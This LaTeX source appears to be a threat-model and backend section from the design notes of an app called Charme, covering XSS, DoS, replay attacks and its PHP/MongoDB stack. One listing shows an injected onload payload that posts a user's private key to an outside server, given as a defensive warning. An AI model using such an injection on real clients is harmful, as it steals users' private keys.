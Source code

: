 \documentclass{scrartcl}
\begin{document}
    If the server does not provide a hyperlink for data.href, but rather something like:
          \begin{lstlisting}
#'  onload='$.post("someotherserver.com", {key: theprivatekey})
     \end{lstlisting}
     this is extremly dangerous. Therefore always sanitize data from the server!!!
\subsubsection{DOS}
Attackers can flood small servers with a lot of requests.
       \subsubsection{Replay attacks}
          Server can provide old public/private keys for the user which have been compromised earlier.
      \subsubsection{Malformed data}
      Attackers can send malformed data to clients which results in the client to producing an exception and therefore make Charme unusable for the user.
      
      \subsubsection{Spam}
      
 \section{Backend}
\subsection{Technology Stack}
On server side, PHP is used as an interpreter. The reason for PHP is that it has a wide community supporting it, as it is used by many other big websites like Facebook or Wordpress for example. \textit{ZeroMQ} is used to send socket messages and communicate between different PHP threads. \textit{Gearman} is necessary to execute background tasks like sending messages in the asynchronously. As a database, \textit{MongoDB} is used, as it is scalable and has the ability to directly store JSON object to the database.
Administrations scripts are written for GNU Bash to provide ssh access.
\end{document}
